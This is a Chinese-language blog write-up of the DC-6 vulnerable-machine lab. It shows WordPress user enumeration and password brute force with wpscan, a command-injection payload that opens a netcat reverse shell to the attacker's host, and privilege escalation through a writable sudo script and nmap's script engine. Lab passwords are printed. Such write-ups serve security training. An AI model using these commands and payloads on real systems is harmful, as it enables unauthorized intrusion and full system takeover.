 ```yaml
---
layout: post
title: DC-6
subtitle: DC-6
date: 2025-07-15 09:33
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

ip扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/079U9O.png)

`namp -T4 -A -p- 192.168.163.133` 扫描端口发现80和22端口

![image.png](https://img.ghostliner.top/E6ZhrX.png)

访问网站被重定向 <http://wordy/> , 修改hosts文件

发现站点为 wordpress，使用whatweb 查看详细信息，dirsearch扫描目录

```shell
whatweb -v http://wordy/
dirsearch -u http://wordy/
```

登陆页面： <http://wordy/wp-login.php>

wpscan 获取用户名

```shell
wpscan --url http://wordy/ -e u
# 保存用户名
echo "admin\ngraham\nmark\nsarah\njens" >user.txt
```

根据官网提示生成密码字典

![image.png](https://img.ghostliner.top/T0UIMS.png)

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

wpscan进行爆破

```shell
wpscan --url http://wordy -U user.txt -P passwords.txt
# mark helpdesk01
```

![image.png](https://img.ghostliner.top/wC0ouK.png)

登录成功找到页面，发现存在远程命令执行漏洞

![image.png](https://img.ghostliner.top/9LqB04.png)

反弹shell

```shell
127.0.0.1;nc -nv 192.168.163.132 4444 -e /bin/bash
# kali
nc -lvvp 4444
```

查看home目录

```shell
ls -R /home
```

![image.png](https://img.ghostliner.top/Qpm843.png)

查看 `things-to-do.txt` 文件，获取用户名密码 `graham`   `GSo7isUM1D4`

![image.png](https://img.ghostliner.top/1kS92r.png)

切换用户后，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/PkCRPu.png)

![image.png](https://img.ghostliner.top/JamVE6.png)

在backups.sh脚本中写入 `/bin/bash`进行提权

```shell
echo '/bin/bash' >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

切换用户成功，进一步提权

![image.png](https://img.ghostliner.top/qOZbD0.png)

namp提权

```shell
tf=$(mktemp)
echo 'os.execute("/bin/sh")' > $tf
sudo nmap --script=$tf
```

提权成功

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
cat theflag.txt
```

![image.png](https://img.ghostliner.top/jjWGgY.png)

